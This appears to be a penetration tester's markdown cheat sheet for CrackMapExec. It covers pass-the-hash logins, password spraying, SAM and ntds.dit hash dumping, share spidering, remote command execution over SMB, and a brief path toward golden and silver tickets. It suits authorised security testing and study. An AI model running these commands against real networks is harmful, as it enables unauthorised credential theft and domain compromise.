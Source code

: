 ```yaml
---
title: CrackMapExec
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - dump hashes
  - passwords
---
```

# CrackMapExec

Once we have access to a domain, CrackMapExec (CME) will allow us to sweep the network and see which users and machines we can access to.

CME allows us to authenticate ourselves with the following protocols:

- smb
- ssh
- mssql
- ldap
- winrm

The most used protocol is smb as port 445 is commonly open.

CME offers a help menu for each protocol (i.e., `crackmapexec winrm -h`). 

## Installation

```bash
sudo apt-get -y install crackmapexec
```


## Basic usage

Main syntax

```bash
crackmapexec <protocol> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

Main flags:

- -u Username `The user whose credentials we will use to authenticate`
- -p Password `User's password`
- Target (IP or FQDN) `Target host to enumerate` (in our case, the Domain Controller)
- --users `Specifies to enumerate Domain Users`
- --groups `Specifies to enumerate domain groups`
- --loggedon-users `Attempts to enumerate what users are logged on to a target, if any`


### Access the machine

```bash
# Check if we can access a machine
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN>

# Using a hash instead of a password, to authenticate ourselves: Pass the hash attack (PtH)
crackmapexec smb $ip -u <username> -H <hash> -d <DOMAIN>
```

### Basic enumeration

```powershell
# Enumerate active sessions
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --sessions

# Obtain the password policy
crackmapexec smb $ip -u <username> -p <password> --pass-pol


# Spraying password with crackmapexec
crackmapexec smb $ip/23 -u /folder/userlist.txt -u administrator -H 88ad09182de639ccc6579eb0849751cf --local-auth --continue-on-success | grep +
# --continue-on-success:  continue spraying even after a valid password is found. Useful for spraying a single password against a large user list
# --local-auth:  if we are targetting a non-domain joined computer, we will need to use the option --local-auth. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout.
# -H: hash

# Get sam: extract hashes from all users authenticated in the machine 
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --sam

# Get the ntds.dit, given that your user has permissions
crackmapexec smb $ip -u <username> -p <password> -d <DOMAIN> --ntds

# Check which machines we can access in a subnet
crackmapexec smb $ip/24 -u <username> -p <password> -d <DOMAIN>

# Enumerate logged on users in other hosts of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --loggedon-users

# Enumerate users of the domain
sudo crackmapexec smb  $ip -u <username> -p <password> -d <DOMAIN> --users

crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --users

# Enumerate groups of the domain
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --groups

```

### Enumerate shares

```powershell
# See shares
crackmapexec smb $ip --local-auth -u <username> -p <password> -d <DOMAIN> --shares

# The module spider_plus will dig through each readable share on the host and list all readable files. 
sudo crackmapexec smb  $ip --local-auth -u <username> -p <password> -d <DOMAIN> -M spider_plus --share 'NameOfShare'
# CME writes the results to a JSON file located at /tmp/cme_spider_plus/<ip of host>
```

### RCE with crackmapexec

```bash
#  If the--exec-method is not defined, CrackMapExec will try to execute the atexec method, if it fails you can try to specify the --exec-method smbexec.
crackmapexec smb $ip -u Administrator -p '<password>' -x 'whoami' --exec-method smbexec
```


## Basic technique

Once we have access to  a domain:

1. Enumerate users and machines in our machine: we will have all users registered and their hashes. 

2. See if any user is in another machine of the domain. Also check if they have admin access.

3. Goal would be to dump ntds.dit.

With krbtgt and DC$ user you can get a golden ticket. And with DC$ a silver ticket.


## What is a SAM hash like?

Take the Administrator one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Basically, it has 4 parts: 

					user : id: LM-authentication : NTLM

For the purpose of using the hash with CrackMapExec, we will user the NTLM part.









